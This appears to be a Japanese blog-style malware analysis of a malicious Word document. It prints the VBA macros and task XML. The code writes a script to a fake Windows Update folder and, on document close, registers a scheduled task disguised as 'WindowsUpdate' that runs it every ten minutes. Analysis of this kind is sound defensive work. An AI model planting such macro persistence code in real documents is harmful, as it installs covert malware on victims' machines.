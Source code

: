```vb
    inp = Replace(inp, "H", "-")
    inp = Replace(inp, "S", "$")
    VBS = "xxx = """ & inp & """" & vbNewLine & pla
    Set FSO2 = CreateObject("Scripting.FileSystemObject")
    Set FS2 = FSO2.CreateTextFile(Pathh & "Updater.vbs", True)
    FS2.WriteLine VBS
    FS2.Close
    PNGenerator
    Application.ScreenUpdating = True
    ActiveDocument.Shapes.Range(Array("Text Box 9")).Select
End Sub
```

次にタスク登録をDocument_Closeで行っています。これが実行ですね。ただ、タスク内容はXMLでありこれもこのタスク内容からはわかりません。

```vb
Private Sub Document_Close()
    Application.ScreenUpdating = False
    uName = Environ("username")
    Pathh = "C:\Users\" & uName & "\AppData\Local\Microsoft\Windows\Update\"
    XML = Google.map.Text
    XML = Replace(XML, "PATH", Pathh)
    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Set rootFolder = service.GetFolder("\")
    temp = rootFolder.RegisterTask("WindowsUpdate", XML, 6, , , 3)
    Call Macro4
End Sub
```

これらのGoogle.mapなどは実際には別にmapやchatなどにアクセスしているわけではなく、`vbaProject.bin`に書かれているようです。そのタスクの内容が上に書いたイメージの内容ですね。

```xml
</Task>
  <!-- 省略 -->
  <RegistrationInfo>
    <Description>This task is used to start the Windows Update service when needed to perform scheduled operations such as scans.</Description>
    <URI>\\WindowsUpdate</URI>
  </RegistrationInfo>
  <!-- 省略 -->
  <Triggers>
    <TimeTrigger>
      <Repetition>
        <Interval>PT10M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2022-06-21T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <RandomDelay>PT1M</RandomDelay>
    </TimeTrigger>
    <IdleTrigger>
      <Enabled>true</Enabled>
    </IdleTrigger>
  </Triggers>
  <!-- 省略 -->
  <Actions Context="Author">
    <Exec>
      <Command>wscript</Command>
      <Arguments>"PATHUpdater.vbs"</Arguments>
    </Exec>
  </Actions>
  <!-- 省略 -->
</Task>
```